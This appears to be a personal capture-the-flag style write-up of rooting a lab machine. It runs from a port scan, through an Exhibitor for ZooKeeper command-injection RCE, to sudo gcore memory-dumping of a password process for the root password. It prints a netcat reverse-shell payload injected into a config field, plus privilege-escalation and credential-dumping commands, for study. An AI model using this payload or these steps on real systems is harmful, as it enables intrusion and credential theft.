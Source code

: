 # Main

[Back to Table of Contents](../cysec)

This is an overview of my methods in rooting a machine from pg. I have purposefully left the names of all pg machines out in titles and replaced them with generic names to avoid any spoiling while still maintaining the opportunity to share my methods, skills, and journey. 

## Initial

### Port scans:
```
PORT     STATE SERVICE
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
631/tcp  open  ipp
2222/tcp open  EtherNetIP-1
8080/tcp open  http-proxy
8081/tcp open  blackice-icecap

Host script results:
| smb-vuln-regsvc-dos: 
|   VULNERABLE:
|   Service regsvc in Microsoft Windows systems vulnerable to denial of service
|     State: VULNERABLE
|       The service regsvc in Microsoft Windows 2000 systems is vulnerable to denial of service caused by a null deference
|       pointer. This script will crash the service if it is vulnerable. This vulnerability was discovered by Ron Bowes
|       while working on smb-enum-sessions.
|_          
|_smb-vuln-ms10-061: false
|_smb-vuln-ms10-054: false
```

After discovering a webserver running on port 8081 during initial enumeration, I navigated to that page in the browser and discovered a portal for something called 'Exhibitor for ZooKeeper.' Immediately after googling this, it was discovered that the software is vulnerable to RCE.

---
Potential Exploits:
https://www.exploit-db.com/exploits/48654

### Web - initial:
```
Exhibitor for ZooKeeper

https://www.exploit-db.com/exploits/48654
```

The exploitdb PoC says to navigate to the config tab and to enter a reverse shell surrounded with '$()'

I started a netcat listener locally and after entering the reverse shell command in the javascript.env field and then 'committing,' I had a reverse shell.

```
$(/bin/nc -e /bin/sh 192.168.49.133 4444 &)
```
---
### Foothold (overview):
1. scan --> web server on 8081
2. exhibitor for zookeeper --> RCE
3. RCE --> revshell

---

### Privilege Escalation / Post-Exploit

After gaining a foothold on the target system via RCE, I ran some basic privesc enumeration commands.
```bash
find . -perm /4000 2>/dev/null

ps aux | grep root

sudo -l
```
Running 'sudo -l' returned interesting results:
```
User c####s may run the following commands on p####n:
    (ALL) NOPASSWD: /usr/bin/gcore
####@####:/$ ps -ef
```
Checking gtfobins, a method of privilege escalation was found relating to the gcore binary:
https://gtfobins.github.io/gtfobins/gcore/#sudo

After a bit of research it was discovered that gcore produces memory dumps and with sudo privileges, it is possible to dump processes running under privileged users, potentially exposing passwords and sensitive information. The potentially tricky part in this is identifying the right process to dump, but this machine had a seemingly-perfect process to dump, 'password-store.'
```
$ ps -ef
root       493     1  0 14:13 ?        00:00:00 /usr/bin/password-store

$ sudo gcore 493

$ strings core*


001 Password: root:
##PASSWORD_REDACTED##
```
After dumping this process, I ran strings on the output and after combing through the results, the password for root user was discovered.
After this, escalation was as simple as switching to root user and entering the password. 
```

$ su root

$ root@pelican:~# cat proof.txt
##HASH_REDACTED##
```
